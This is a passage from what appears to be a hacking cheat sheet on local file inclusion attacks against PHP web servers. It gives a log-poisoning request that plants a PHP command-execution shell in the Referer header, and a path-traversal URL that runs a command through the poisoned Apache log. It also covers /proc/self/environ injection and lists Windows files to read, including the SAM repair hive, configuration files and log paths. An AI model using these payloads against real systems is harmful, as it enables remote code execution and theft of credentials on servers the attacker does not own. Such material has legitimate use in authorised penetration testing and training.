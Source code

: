 Or in the referer parameter.

```
GET / HTTP/1.1
Referer: <? passthru($_GET[cmd]) ?>
Host: 192.168.1.159
Connection: close
```

**Execute it in the browser**

Now you can request the log-file through the LFI and see the php-code get executed.

```
http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id
```

### Proc files

If you can read the proc-files on the system you might be able to poison them through the user-agent.

We can also inject code into /proc/self/environ through the user-agent

[https://www.exploit-db.com/papers/12992/](https://www.exploit-db.com/papers/12992/)

[https://www.youtube.com/watch?v=ttTVNcPnsJY](https://www.youtube.com/watch?v=ttTVNcPnsJY)

## Windows

**Fingerprinting**

```
c:\WINDOWS\system32\eula.txt
c:\boot.ini  
c:\WINDOWS\win.ini  
c:\WINNT\win.ini  
c:\WINDOWS\Repair\SAM  
c:\WINDOWS\php.ini  
c:\WINNT\php.ini  
c:\Program Files\Apache Group\Apache\conf\httpd.conf  
c:\Program Files\Apache Group\Apache2\conf\httpd.conf  
c:\Program Files\xampp\apache\conf\httpd.conf  
c:\php\php.ini  
c:\php5\php.ini  
c:\php4\php.ini  
c:\apache\php\php.ini  
c:\xampp\apache\bin\php.ini  
c:\home2\bin\stable\apache\php.ini  
c:\home\bin\stable\apache\php.ini
```

**Logs**

Common path for apache log files on windows:

```
c:\Program Files\Apache Group\Apache\logs\access.log  
c:\Program Files\Apache Group\Apache\logs\error.log
```
